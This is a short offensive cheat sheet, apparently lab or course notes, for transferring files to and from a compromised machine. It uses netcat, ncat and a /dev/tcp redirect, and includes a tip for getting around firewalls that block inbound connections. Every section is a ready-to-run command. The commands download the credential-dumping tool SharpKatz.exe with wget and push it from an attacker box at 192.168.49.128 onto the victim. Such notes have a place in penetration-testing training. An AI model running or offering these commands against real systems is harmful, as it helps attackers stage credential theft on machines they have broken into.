# File Transfer with Netcat and Ncat

## From our pwnbox onto the compromised machine

1. First start Netcat (nc) on the compromised machine

nc -l -p 8000 > SharpKatz.exe

OR

ncat -l -p 8000 --recv-only > SharpKatz.exe

2. From our Pwnbox, connect to the compromised machine on port 8000 using Netcat and send the file

wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

nc -q 0 192.168.49.128 8000 < SharpKatz.exe

OR

ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

## From the compromised machine onto a port on our pwnbox

--> Useful if firewall blocks inbound connections

1. Pwnbox - Sending File as Input to Netcat

sudo nc -l -p 443 -q 0 < SharpKatz.exe

OR

sudo ncat -l -p 443 --send-only < SharpKatz.exe

2. Compromised Machine Connect to Netcat to Receive the File

nc 192.168.49.128 443 > SharpKatz.exe

OR

ncat 192.168.49.128 443 --recv-only > SharpKatz.exe

## From the compromised machine onto a port on our pwnbox

--> Useful If we don't have Netcat or Ncat on our compromised machine

1. Pwnbox - Sending File as Input to Netcat

sudo nc -l -p 443 -q 0 < SharpKatz.exe

OR

sudo ncat -l -p 443 --send-only < SharpKatz.exe

2. Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

